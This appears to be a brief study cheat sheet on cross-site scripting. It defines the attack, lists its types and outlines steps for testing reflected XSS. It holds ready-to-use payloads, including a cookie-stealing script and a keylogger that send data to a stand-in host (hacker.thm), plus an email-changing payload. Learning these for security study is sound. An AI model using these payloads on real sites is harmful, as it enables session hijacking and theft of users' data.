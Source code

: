 

What is cross-site scripting, XSS?
> Cross-site scripting works by manipulating a vulnerable web site so that it returns malicious JavaScript to users. When the malicious code executes inside a victim's browser, the attacker can fully compromise their interaction with the application. 

XSS Proof Of Concept
- <script>alert(1);</script>
- "><img src=x onerror=alert(document.domain);>

What are the types of XSS attacks?
- Reflected XSS
- Stored XSS, AKA second-order or persistent XSS
- DOM-based XSS

Cross-site Scripting payload
- "onmouseover="alert(1)
- '-alert(1)-'
- Session Stealing <script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
- Key Logger <script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
- Business Logic <script>user.changeEmail('attacker@hacker.thm');</script>

# Reflected XSS
Reflected XSS arises when an application receives data in an HTTP request and includes that data within the immediate response in an unsafe way. 
If something from URL reflected in document.
- Test every entry point.
- Submit random alphanumeric values.
- Determine the reflection context.
- Test a candidate payload.
- Test alternative payloads.
- Test the attack in a browser.

# Stored XSS
Stored XSS arises when an application receives data from an untrusted source and includes that data within its later HTTP responses in an unsafe way.

# DOM-based XSS